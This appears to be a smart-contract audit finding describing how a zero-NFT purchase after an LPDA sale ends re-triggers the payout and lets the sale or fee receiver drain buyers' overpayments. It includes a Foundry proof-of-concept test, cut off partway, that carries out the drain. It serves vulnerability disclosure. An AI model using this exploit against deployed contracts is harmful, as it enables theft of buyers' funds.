     81:        if (newId == temp.finalId) {
    82:            sale.finalPrice = uint80(price);
    83:            uint256 totalSale = price * amountSold;
    84:            uint256 fee = totalSale / 20;
    85:            ISaleFactory(factory).feeReceiver().transfer(fee);
    86:            temp.saleReceiver.transfer(totalSale - fee);
    87:            _end();
    88:        }

Earlier there’s also a check that you cannot continue buying once the `currentId` has reached `finalId`:

    67:        uint48 newId = amount + temp.currentId;
    68:        require(newId <= temp.finalId, "TOO MANY");

However, it is still possible to buy `0` NFTs for whichever price you want even after the sale has ended. Triggering the “end of sale” snippet again, since `newId` will still equal `temp.finalId`.

The attacker, `saleReceiver` (or `feeReceiver`), buys `0` NFTs for the delta between `totalSale` and the balance still in the contract (the over payments by buyers). If there is more balance in the contract than `totalSales` this can be iterated until the contract is empty.

The attacker has then stolen the over payments from the buyers.

A buyer can mitigate this by continuously calling `refund()` as the price lowers but that would incur a high gas cost.

### [](#impact-2)Impact

`saleReceiver` or `feeReceiver` can steal buyers over payments after the sale has ended. Who gains the most depends on circumstances in the auction.

### [](#proof-of-concept-2)Proof of Concept

PoC test in `test/LPDA.t.sol`:

        function test_BuyStealRefund() public {
            sale = LPDA(lpdaSales.createLPDASale(lpdaSale));
            edition.grantRole(edition.MINTER_ROLE(), address(sale));
            
            // buy most nfts at a higher price
            sale.buy{value: 9 ether}(9);
    
            // warp to when price is lowest
            vm.warp(block.timestamp + 1 days);
            uint256 price = sale.getPrice(); // 0.9 eth
    
            // buy last nft at lowest possible price
            sale.buy{value: price}(1);
    
            uint256 contractBalanceAfterEnd = address(sale).balance;
            uint256 receiverBalanceAfterEnd = address(69).balance;
            console.log("Sale end");
            console.log("LPDA contract",contractBalanceAfterEnd); // ~ 0.9 eth
            console.log("saleReceiver ",receiverBalanceAfterEnd); // ~9 - fee eth
    
            // buy 0 nfts for the totalSales price - current balance
            // totalSales: 9 eth - contract balance 0.9 eth = ~8.1 eth
            uint256 totalSale = price * 10;
            uint256 delta = totalSale - contractBalanceAfterEnd;
            sale.buy{value: delta}(0);
    